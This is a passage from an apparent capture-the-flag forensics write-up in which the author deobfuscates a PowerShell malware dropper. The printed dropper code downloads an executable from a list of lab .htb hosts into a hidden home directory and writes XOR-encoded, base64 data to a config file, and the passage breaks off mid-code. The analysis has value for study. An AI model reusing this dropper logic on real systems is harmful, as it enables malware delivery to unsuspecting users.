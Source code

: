 I have a strange feeling of déjà vu, as I search on Google for a powershell deobfuscator. Javascript has dozens of them, so I have high hopes. However, I cannot find any of them, so I start doing it manually.

Again, I know _nothing_ about powershell code, so it takes me some time to understand how it works. I will write here some guidelines for future me:
- Semicolons separate instructions (like in Bash);
- Put everything in lower case, and remove "\`": this is very important to rename variables and improve readability. Sure, it could happen that some function names become wrong, but it's fine since I will not run the code anyway, and I still understand what they do.
- Remove variables that are never used.
- Every time there is an ugly string with a bunch of concatenations and parenthesis, just copy-paste it and print it in Python, it's not worth my time;
- These horrible formats (`"{2}{0}{4}{3}{1}" -f 'e','rECtorY','sYst','.IO.dI','M'`) work as follows. <br>
`{2}` means I start with the string at index 2 so, in this case, `'sYst'`; <br>
`{0}` means the string at index 0 follows, `'e'`; <br>
Continue until you get something that makes sense, in this example `sYsteM.IO.dIrECtorY`.

In the end, this is what the code looks like:
```ps1
$DirectoryType = [System.IO.Directory]
$ServicePointManagerType = [System.Net.ServicePointManager]
($DirectoryType).CreateDirectory($HOME + 'nDpJrb' + 'evk4nDpCcwr_2hnDp' -replace 'nDp', [char]92)
# [char]92 is \
# this becomes : ($DirectoryType).CreateDirectory($HOME + '\Jrbevk4\Ccwr_2h\')
$sus_array = (182,187,229,146,231,177,151,149,166)
[System.Net.ServicePointManager]::SecurityProtocol = [System.Net.SecurityProtocolType]::Tls12
$sus_array += (186,141,228,182,177,171,229,236,239,239,239,228,181,182,171,229,234,239,239,228)
$Ale7g_8 = 'Ale7g_8'
$exe_full_path = $HOME + ('5tfJrbevk45tfCcwr_2h5tf' -replace '5tf',[char]92) + $Ale7g_8 + '.exe'
# this becomes : $exe_full_path = $HOME + '\Jrbevk4\Ccwr_2h\Ale7g_8.exe'
$sus_array += (185,179,190,184,229,151,139,157,164,235,177,239,171,183,236,141,128,187,235,134,128,158,177,176,139)
$conf_full_path = $HOME + ('5tfJrbevk45tfCcwr_2h5tf' -replace '5tf',[char]92) + $Ale7g_8 + '.conf'
# this becomes $conf_full_path = $HOME + '\Jrbevk4\Ccwr_2h\Ale7g_8.conf'
$web_client = &(new-object) Net.Webclient
$sus_array += (183,154,173,128,175,151,238,140,183,162,228,170,173,179,229)

$websites = ('http:][(s)]w][(s)]wda-industrial.htb][(s)]wjs][(s)]w9IdLP][(s)]w@http:][(s)]w][(s)]wdaprofesional.htb][(s)]wdata4][(s)]whWgWjTV][(s)]w@https:][(s)]w][(s)]wdagranitegiare.htb][(s)]wwp-admin][(s)]wtV][(s)]w@http:][(s)]w][(s)]wwww.outspokenvisions.htb][(s)]wwp-includes][(s)]waWoM][(s)]w@http:][(s)]w][(s)]wmobsouk.htb][(s)]wwp-includes][(s)]wUY30R][(s)]w@http:][(s)]w][(s)]wbiglaughs.htb][(s)]wsmallpotatoes][(s)]wY][(s)]w@https:][(s)]w][(s)]wngllogistics.htb][(s)]wadminer][(s)]wW3mkB][(s)]w').replace('][(s)]w',([array]('/'),('xwe'))[0]).split('@')
# ([array]('/'),('xwe'))[0]) is simply /, so we replace ][(s)]w with /
# overall, this becomes:
# $websites = (
#     'http://da-industrial.htb/js/9IdLP/',
#     'http://daprofesional.htb/data4/hWgWjTV/',
#     'https://dagranitegiare.htb/wp-admin/tV/',
#     'http://www.outspokenvisions.htb/wp-includes/aWoM/',
#     'http://mobsouk.htb/wp-includes/UY30R/',
#     'http://biglaughs.htb/smallpotatoes/Y/',
#     'https://ngllogistics.htb/adminer/W3mkB/'
# )
foreach ($website in $websites) { 
    try {
        $web_client.DownloadFile($website, $exe_full_path)
        If ((Get-Item $exe_full_path).Length -ge 45199) {
            $website.ToCharArray() | ForEach-Object { 
                $sus_array += ([byte][char]$_ -bxor 0xdf) 
            }
            $sus_array += (228)
            [Convert]::ToBase64String($sus_array) | Out-File -FilePath $conf_full_path
```